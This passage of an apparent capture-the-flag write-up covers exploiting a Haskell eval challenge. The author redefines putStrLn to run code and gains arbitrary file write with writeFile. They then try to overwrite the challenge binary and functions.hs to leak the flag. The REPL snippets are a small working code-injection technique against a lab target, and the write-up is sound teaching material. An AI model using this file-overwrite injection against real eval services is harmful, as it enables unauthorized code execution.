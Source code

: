 How far can we push this? It's mostly down to: how to get the right Haskell syntax for things we want to try &#128578;

## Simple dummy command

First, we can indeed execute *some* code.

```haskell
> putStrLn t = "hi"
> ioIfy "a"
Result from eval: "\"hi\""
```

## readFile

My next attempt was to try [readFile](https://hackage.haskell.org/package/base-4.20.0.1/docs/Prelude.html#v:readFile)
and print `functions.hs` to standard output. I failed badly thought, could not get the right syntax for the result

## writeFile

Then I saw that [writeFile](https://hackage.haskell.org/package/base-4.20.0.1/docs/Prelude.html#v:writeFile) does not
need to deal with result &#128578; and just need to strings

```haskell
> putStrLn t = writeFile "test" "blah"
> ioIfy "a"
Result from interpret: ()
```

... which created the file. Can we write newlines though? Yes:

```haskell
> putStrLn t = writeFile "test" "blah\nblah"
> ioIfy "a"
Result from interpret: ()
```

OK, so **we have arbitrary write capability**.


# Exploiting

My first attempt was to overwrite the binary file itself:

This won't work (text file busy)
```haskell
> putStrLn f = writeFile "./challenge" "#!/bin/sh\ncat functions.hs"
> ioIfy "a"
```

... but this failed with `text file busy`. There is no point overwriting `hashell.hs`, as it is
compiled only during the container startup. This leaves us with `functions.hs`, which is
dynamically executed from the challenge. Now, this will initially wipe the flag, but... that's where
the "master" copy in `recover_original.hs` will be useful.
